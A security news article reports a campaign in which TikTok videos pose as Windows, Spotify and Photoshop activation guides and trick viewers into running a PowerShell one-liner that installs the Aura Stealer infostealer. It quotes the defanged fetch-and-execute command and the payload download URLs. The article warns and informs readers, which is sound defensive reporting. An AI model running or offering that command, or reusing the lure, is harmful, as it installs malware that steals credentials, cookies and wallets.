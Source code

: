 # TikTok videos continue to push infostealers in ClickFix attacks

![TikTok](https://www.bleepstatic.com/content/hl-images/2022/08/31/TikTok.jpg)

Cybercriminals are using TikTok videos disguised as free activation guides for popular software like Windows, Spotify, and Netflix to spread information-stealing malware.

ISC Handler Xavier Mertens spotted the ongoing campaign, which is largely the same as the one [observed by Trend Micro](https://www.bleepingcomputer.com/news/security/tiktok-videos-now-push-infostealer-malware-in-clickfix-attacks/) in May

The TikTok videos seen by BleepingComputer pretend to offer instructions on how to activate legitimate products like Windows, Microsoft 365, Adobe Premiere, Photoshop, CapCut Pro, and Discord Nitro, as well as made-up services such as Netflix and Spotify Premium.

![](https://www.bleepstatic.com/images/news/security/t/tiktok/infostealers/tiktok-videos.jpg)

**Malicious videos on TikTok pushing infostealers**  
_Source: BleepingComputer.com_

The videos are performing a ClickFix attack, which is a social engineering technique that provides what appears to be legitimate "fixes" or instructions that trick users into executing malicious PowerShell commands or other scripts that infect their computers with malware.

Each video displays a short one-line command and tells viewers to run it as an administrator in PowerShell:

```
iex (irm slmgr[.]win/photoshop)
```

It should be noted that the program name in the URL is different depending on the program that is being impersonated. For example, in the fake Windows activation videos, instead of the URL containing _photoshop_, it would include _windows_.

In this campaign, when the command is executed, PowerShell connects to the remote site slmgr\[.\]win to retrieve and execute another PowerShell script.

This script downloads two executables from Cloudflare pages, with the first executable downloaded from https://file-epq\[.\]pages\[.\]dev/updater.exe \[[VirusTotal](https://www.virustotal.com/gui/file/58b11b4dc81d0b005b7d5ecae0fb6ddb3c31ad0e7a9abf9a7638169c51356fd8)\]. This executable is a variant of the [Aura Stealer](http://AuroStealer) info-stealing malware.

Aura Stealer collects saved credentials from browsers, authentication cookies, cryptocurrency wallets, and credentials from other applications and uploads them to the attackers, giving them access to your accounts.

Mertens says that an additional payload will be downloaded, named source.exe \[[VirusTotal](https://www.virustotal.com/gui/file/db57e4a73d3cb90b53a0b1401cb47c41c1d6704a26983248897edcc13a367011)\], which is used to self-compile code using .NET's built-in Visual C# Compiler (csc.exe). This code is then injected and launched in memory.

The purpose of the additional payload remains unclear.

Users who perform these steps should consider all of their credentials compromised and immediately reset their passwords on all sites they visit.

ClickFix attacks have become very popular over the past year, used to distribute various malware strains in ransomware and cryptocurrency theft campaigns.

As a general rule, users should never copy text from a website and run it in an operating system dialog box, including within the [File Explorer address bar](https://www.bleepingcomputer.com/news/security/filefix-attack-weaponizes-windows-file-explorer-for-stealthy-powershell-commands/), command prompt, PowerShell prompts, macOS terminal, and Linux shells.